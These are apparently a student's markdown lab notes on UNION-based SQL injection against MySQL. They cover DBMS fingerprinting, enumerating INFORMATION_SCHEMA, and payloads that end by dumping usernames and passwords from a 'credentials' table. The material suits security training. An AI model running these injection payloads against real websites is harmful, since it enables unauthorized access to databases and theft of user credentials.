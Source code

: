 ## MySQL Fingerprinting
* First identify the DBMS
* When we see the web server uses `Apache` or `Nginx` it is a good guess that the web server is running on Linux, so the DBMS is likely `MySQL`
* The same also applies to Microsoft DBMS if the webserver is `IIS`, so it is likely to be `MSSQL`
* `MySQL`
	* `@@version` When we have full query output, In MSSQL it returns MSSQL version, Error with other DBMS.
	* `SELECT POW(1,1)`, When we only have numeric output, Error with other DBMS
	* `SELECT SLEEP(5)`, Blind/No Output, Will not delay response with other DBMS

## INFORMATION_SCHEMA Database
* To pull data from tables we need a proper select query
* For that we need the following information
	-   List of databases
	-   List of tables within each database
	-   List of columns within each table
- The [INFORMATION_SCHEMA](https://dev.mysql.com/doc/refman/8.0/en/information-schema-introduction.html) database contains metadata about the databases and tables present on the server
- We cannot call its tables directly with a `SELECT` statement
- To reference a table present in another DB, we can use the dot ‘`.`’ operator
- E.g. to `SELECT` a table `users` present in a database named `my_database`

```sql
SELECT * FROM my_database.users;
```

## SCHEMATA
* The table [SCHEMATA](https://dev.mysql.com/doc/refman/8.0/en/information-schema-schemata-table.html) in the `INFORMATION_SCHEMA` database contains information about all databases on the server

```sql
mysql> SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA;

+--------------------+
| SCHEMA_NAME        |
+--------------------+
| mysql              |
| information_schema |
| performance_schema |
| ilfreight          |
| dev                |
+--------------------+
6 rows in set (0.01 sec)
```

**Note**: The first three databases are default MySQL databases and are present on any server, so we usually ignore them during DB enumeration. Sometimes there's a fourth 'sys' DB as well.

```sql
cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -
```

![](../../Screenshots/ports_dbs.png)

* Find out which database the web application is running to retrieve ports data from

```sql
cn' UNION select 1,database(),2,3-- -
```

![](../../Screenshots/db_name.jpg)

## TABLES
* We need to get a list of the tables to query them with a `SELECT` statement
* We can use the `TABLES` table in the `INFORMATION_SCHEMA` Database
	* Contains information about all tables throughout the database`
	* `TABLE_NAME` column stores table names
	* `TABLE_SCHEMA` column points to the database each table belongs to

```sql
cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -
```

## COLUMNS
* We first need to find the column names in the table, which can be found in the `COLUMNS` table in the `INFORMATION_SCHEMA` database
* `COLUMN_NAME`, `TABLE_NAME`

```sql
cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -
```

## Data
```sql
cn' UNION select 1, username, password, 4 from dev.credentials-- -
```

**Remember**: don't forget to use the dot operator to refer to the 'credentials' in the 'dev' database, as we are running in the 'ilfreight' database, as previously discussed.
